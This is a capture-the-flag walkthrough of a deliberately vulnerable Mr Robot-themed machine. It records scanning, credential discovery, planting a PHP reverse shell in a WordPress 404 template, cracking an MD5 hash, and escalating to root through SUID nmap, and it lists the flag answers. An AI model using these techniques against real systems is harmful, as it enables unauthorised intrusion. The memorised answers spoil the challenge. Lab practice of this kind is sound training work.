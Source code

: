 # Task 2 Hack the machine

Can you root this Mr. Robot styled machine? This is a virtual machine meant for beginners/intermediate users. There are 3 hidden keys located on the machine, can you find them?

Credit to [Leon Johnson](https://twitter.com/@sho_luv) for creating this machine. **This machine is used here with the explicit permission of the creator <3**

### What is key 1?

`nmap -sS -p- -vv -Pn -T4 10.10.172.42`

port 80 and 443 are open

Navigating to website looks to be an animation of a computer booting and a message


![[Mr Robot CTF 01.png]]

The source is also interesting with a user IP?

```
<!doctype html>
<!--
\   //~~\ |   |    /\  |~~\|~~  |\  | /~~\~~|~~    /\  |  /~~\ |\  ||~~
 \ /|    ||   |   /__\ |__/|--  | \ ||    | |     /__\ | |    || \ ||--
  |  \__/  \_/   /    \|  \|__  |  \| \__/  |    /    \|__\__/ |  \||__
-->
<html class="no-js" lang="">
  <head>
    

    <link rel="stylesheet" href="css/main-600a9791.css">

    <script src="js/vendor/vendor-48ca455c.js"></script>

    <script>var USER_IP='208.185.115.6';var BASE_URL='index.html';var RETURN_URL='index.html';var REDIRECT=false;window.log=function(){log.history=log.history||[];log.history.push(arguments);if(this.console){console.log(Array.prototype.slice.call(arguments));}};</script>

  </head>
  <body>
    <!--[if lt IE 9]>
      <p class="browserupgrade">You are using an <strong>outdated</strong> browser. Please <a href="http://browsehappy.com/">upgrade your browser</a> to improve your experience.</p>
    

    <!-- Google Plus confirmation -->
    <div id="app"></div>

    
    <script src="js/s_code.js"></script>
    <script src="js/main-acba06a5.js"></script>
</body>
</html>

```

And /robots.txt

```
User-agent: *
fsocity.dic
key-1-of-3.txt
```

Both HTTP and HTTPS sites look similar, the HTTPS site is a self signed cert.

The site `https://10.10.172.42/key-1-of-3.txt` provides the first key

Answer: `073403c8a58a1f80d943455fb30724b9`

### What is key 2?

Download `https://10.10.172.42/fsocity.dic`

At first glance, this appears to be a word list, possibly passwords.

In the web console, `prepare` runs a video, the other options all have some video or newspaper clippings, except join.

It shows text from `<mr. robot>` asking us to join and enter an email address.

`gobuster dir --url 10.10.172.42 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 40`

Returns `sitemap`, `readme`
```
/blog                 (Status: 301) [Size: 233] [--> http://10.10.172.42/blog/]
/sitemap              (Status: 200) [Size: 0]
/images               (Status: 301) [Size: 235] [--> http://10.10.172.42/images/]
/rss                  (Status: 301) [Size: 0] [--> http://10.10.172.42/feed/]
/login                (Status: 302) [Size: 0] [--> http://10.10.172.42/wp-login.php]
/video                (Status: 301) [Size: 234] [--> http://10.10.172.42/video/]
/0                    (Status: 301) [Size: 0] [--> http://10.10.172.42/0/]
/feed                 (Status: 301) [Size: 0] [--> http://10.10.172.42/feed/]
/image                (Status: 301) [Size: 0] [--> http://10.10.172.42/image/]
/atom                 (Status: 301) [Size: 0] [--> http://10.10.172.42/feed/atom/]
/wp-content           (Status: 301) [Size: 239] [--> http://10.10.172.42/wp-content/]
/admin                (Status: 301) [Size: 234] [--> http://10.10.172.42/admin/]
/audio                (Status: 301) [Size: 234] [--> http://10.10.172.42/audio/]
/wp-login             (Status: 200) [Size: 2664]
/css                  (Status: 301) [Size: 232] [--> http://10.10.172.42/css/]
/intro                (Status: 200) [Size: 516314]
/rss2                 (Status: 301) [Size: 0] [--> http://10.10.172.42/feed/]
/license              (Status: 200) [Size: 309]
/wp-includes          (Status: 301) [Size: 240] [--> http://10.10.172.42/wp-includes/]
/js                   (Status: 301) [Size: 231] [--> http://10.10.172.42/js/]
/Image                (Status: 301) [Size: 0] [--> http://10.10.172.42/Image/]
/rdf                  (Status: 301) [Size: 0] [--> http://10.10.172.42/feed/rdf/]
/page1                (Status: 301) [Size: 0] [--> http://10.10.172.42/]
/readme               (Status: 200) [Size: 64]
/robots               (Status: 200) [Size: 41]
/dashboard            (Status: 302) [Size: 0] [--> http://10.10.172.42/wp-admin/]
/%20                  (Status: 301) [Size: 0] [--> http://10.10.172.42/]
/wp-admin             (Status: 301) [Size: 237] [--> http://10.10.172.42/wp-admin/]
/0000                 (Status: 301) [Size: 0] [--> http://10.10.172.42/0000/]

```

Readme: `I like where you head is at. However I'm not going to help you.`
Admin: seems to constantly reload

`wp-login.php` gives a wordpress logon page.

`/0/` gives a wordpress site.

`license` returns ``




```
what you do just pull code from Rapid9 or some s@#% since when did you become a script kitty?

<SNIP>

do you want a password or something?

<SNIP>

ZWxsaW90OkVSMjgtMDY1Mgo=
```

Base64 decode the last line: `elliot:ER28-0652`

There is an image at `http://10.10.172.42/wp-content/uploads/2015/11/image.jpg`.    Using binwalk it doesn't look as though there is any extra data in it or Stenography.


`/feed/rdf` returns
```
<rdf:RDF>
<channel rdf:about="http://10.10.172.42">
<title>user's Blog!</title>
<link>http://10.10.172.42</link>
<description>Just another WordPress site</description>
<dc:date/>
<sy:updatePeriod>hourly</sy:updatePeriod>
<sy:updateFrequency>1</sy:updateFrequency>
<sy:updateBase>2000-01-01T12:00+00:00</sy:updateBase>
<admin:generatorAgent rdf:resource="http://wordpress.org/?v=4.3.1"/>
<items>
<rdf:Seq> </rdf:Seq>
</items>
</channel>
</rdf:RDF>
```

Go to the `wp-login` and use the `elliot:ER28-0652` credentials to get in.

The name is `Elliot Alderson`. email `elliot@mrrobot.com` and website `http://mrrobot.wikia.com/wiki/Elliot_Alderson`

Other users are `mich05654`, `krisa Gordon`, `kgordon@therapist.com`

Go to the website and use the command join, type in `kgordon@therapist.com` or `elliots` makes no difference

Reset `mich05654` password and logon as that user unable to find anything useful

Create a post on the wordpress site, no workflow triggered

`/phpmyadmin` returns `For security reasons, this URL is only accessible using localhost (127.0.0.1) as the hostname.`


As Elliot, go to Appearance, Editor, select the 404 template, paste in https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php modified to our IP address

Create the listener and navigate to a 404 page for the reverse shell.

we are now running as `daemon` in `/`
in `/home/robot` is the 2nd key we do not have read permission to, however there is a `password.raw-md5` that we do.  The file contains
`robot:c3fcd3d76192e4007dfb496cca67e13b`

`hashcat -a 0 -m 0 hash.txt rockyou.txt` reveals the password to be `abcdefghijklmnopqrstuvwxyz`

Looking at SUID bits, nmap is installed and has SUID.
```shell
cd /usr/local/bin
./nmap --interactive
!sh
whoami
```

And we are running as root.

Answer: `822c73956184f694993bede3eb39f959`


### What is key 3?

In the same elevated nmap shell, we `ls /root/` and we see key 3.
`cat /root/key-3-of-3.txt`

Answer: `04787ddef27c3dee1ee161b21670b4e4`





Looking at walkthrough after the fact i couldn't run `su robot` to use the password as I didn't have a proper shell.
Running `python -c ‘import pty;pty.spawn(“/bin/bash”)’` would have allowed this.
